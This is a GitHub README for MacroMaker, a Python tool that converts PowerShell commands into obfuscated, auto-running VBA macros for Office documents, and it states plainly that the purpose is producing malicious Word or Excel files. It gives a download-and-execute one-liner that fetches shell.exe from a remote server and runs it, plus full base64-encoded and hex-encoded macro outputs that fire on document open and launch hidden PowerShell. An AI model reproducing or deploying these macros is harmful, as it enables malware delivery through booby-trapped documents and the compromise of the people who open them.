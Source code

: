 # MacroMaker
*****************************
### what is Macros :
* Macros are special-purpose programs used to automate procedures within a bigger application or software. Usually a macro consists of a series of      commands and actions written in a dedicated Macro Language or a standard programming language. These commands will be executed automatically by the application when a certain trigger takes place.

* Macros are implemented extensively within Office Suites to allow the automation of common tasks and procedures. Different suites use different macro  languages, but some notable mentions are Visual Basic for Applications (MS Office), LibreOffice Basic (LibreOffice) and OpenOffice Basic (OpenOffice).

* Most Office macro languages have rather extensive features and can access various resources. For example, MS Office macros (written in VBA) can run  executables and use networking capabilities.
* Macro  can  use to  generate malicious  Microsoft Word or Microsoft Excel document  
* [reference](https://www.cynet.com/attack-techniques-hands-on/office-macro-attacks/)
* [Microsoft Doc](https://support.microsoft.com/en-us/office/macros-in-office-files-12b036fd-d140-4e74-b45e-16fed1a7e5c6)
### what is MacroMaker-
-------------------------------------
 * MacroMake is Script witten by python3 help to genertate  VBA  code ready to use
  - MacroMaker Take the powershell command as  aragnent  then will treanset the command to VBA code,  
  ready to  executed automatically any command  in  background
    - Executes PowerShell   or Uses networking capabilities to download files from remote servers ..etc
 * MacroMaker have to way to Gentate thr VBA code 
   - encode base16
   - hexformat

### How to enable-develope   -
-------------------------------------
 ### - enable Develope mode  to can inster macro in to microsoft-office 
 *  The Developer tab isn't displayed by default, but you can add it to the ribbon.
 - 1- On the File tab, go to Options > Customize Ribbon.
 - 3- Under Customize the Ribbon and under Main Tabs, select the Developer check box.
 * [reference](https://www.groovypost.com/howto/enable-developer-tab-microsoft-office-ribbon/)

 ## How to Use MacroMacker - 
 -----------------------------------------
 * git clone https://www.github.com/jac11/MacroMaker.git
 * cd MacroMaker
 * chmod +x MacroMaker.py
 * to see the help list MacroMaker.py -h/--help
 ## explain :-
----------------------------------------
 incace i need to download file and exctue after download i use powershaell  - 
 ```
 (New-Object Net.WebClient).DownloadFile('http://10.195.100.221:8000/shell.exe',' C:\Users\Public\Documents\shell.exe');Start-Process (' C:\Users\Public\Documents\shell.exe')
 ```
- this code will download file from the server then will excxut it after download to use as VBA use Macromacker
- ./Macromaker.py <-c the poweshell code > <-n the file name to  save output > 
- ./MacroMaker.py -c "(New-Object Net.WebClient).DownloadFile('http://10.195.100.221:8000/shell.exe',' C:\Users\Public\Documents\shell.exe');Start-Process (' C:\Users\Public\Documents\shell.exe')" -n code
```
$ ./MacroMaker.py -c "(New-Object Net.WebClient).DownloadFile('http://10.195.100.221:8000/shell.exe',' C:\Users\Public\Documents\shell.exe');Start-Process (' C:\Users\Public\Documents\shell.exe')" -n code
```
* output VBA Script 
```

Sub AutoOpen()
'
'
AutoOpenMacro
'
'
End Sub
Sub Document_Open()
    AutoOpenMacro
End Sub
Sub AutoOpenMacro()
	Dim Str As String
	Str= str+"powershell -e KABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQA"
	Str= str+"LgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAE"
	Str= str+"YAaQBsAGUAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQA5ADUALgAx"
	Str= str+"ADAAMAAuADIAMgAxADoAOAAwADAAMAAvAHMAaABlAGwAbAAuAGUAeA"
	Str= str+"BlACcALAAnACAAQwA6AFwAVQBzAGUAcgBzAFwAUAB1AGIAbABpAGMA"
	Str= str+"XABEAG8AYwB1AG0AZQBuAHQAcwBcAHMAaABlAGwAbAAuAGUAeABlAC"
	Str= str+"cAKQA7AFMAdABhAHIAdAAtAFAAcgBvAGMAZQBzAHMAIAAoACcAIABD"
	Str= str+"ADoAXABVAHMAZQByAHMAXABQAHUAYgBsAGkAYwBcAEQAbwBjAHUAbQ"
	Str= str+"BlAG4AdABzAFwAcwBoAGUAbABsAC4AZQB4AGUAJwApAA=="
	CreateObject("Wscript.shell").Run Str , 0, True 
End Sub



```
* to use same command and get  output  as hex  code user --hex option
```
./MacroMaker.py -c "(New-Object Net.WebClient).DownloadFile('http://10.195.100.221:8000/shell.exe',' C:\Users\Public\Documents\shell.exe');Start-Process (' C:\Users\Public\Documents\shell.exe')" -n code --hex
```
* output 
```
Sub AutoOpen()
'
'
AutoOpenMacro
'
'
End Sub
Sub Document_Open()
    AutoOpenMacro
End Sub
Sub AutoOpenMacro()
	Dim Hex As String
	Hex ="powershell.exe $hexString ='"& _
	"28 4e 65 77 2d 4f 62 6a 65 63 74 20 4e 65 74 2e 57 65 62 43 6c 69 65 6e 74 29 2e"& _
	" 44 6f 77 6e 6c 6f 61 64 46 69 6c 65 28 27 68 74 74 70 3a 2f 2f 31 30 2e 31 39 35"& _
	" 2e 31 30 30 2e 32 32 31 3a 38 30 30 30 2f 73 68 65 6c 6c 2e 65 78 65 27 2c 27 20"& _
	" 43 3a 5c 55 73 65 72 73 5c 50 75 62 6c 69 63 5c 44 6f 63 75 6d 65 6e 74 73 5c 73"& _
	" 68 65 6c 6c 2e 65 78 65 27 29 3b 53 74 61 72 74 2d 50 72 6f 63 65 73 73 20 28 27"& _
	" 20 43 3a 5c 55 73 65 72 73 5c 50 75 62 6c 69 63 5c 44 6f 63 75 6d 65 6e 74 73 5c"& _
	" 73 68 65 6c 6c 2e 65 78 65 27 29'"& _
	";$hexString.Split(' ') | forEach {[char]([convert]::toint16($_,16))}"& _
	"| forEach {$result = $result + $_};Set-Variable -Name 'ROT' -Value ($result);Invoke-Expression $ROT "
	Set WshShell = CreateObject("Wscript.Shell")
	WshShell.Run Hex, 0, True
End Sub
```
* output  will save in the MacroStore folder under the name  user give it - n <the name >
  
<img src = "images/1.png" width=350>  <img src = "images/2.png" width=350>
-----------------------------------------------------------------

- rootx1982@gmail.com
-  thank you 

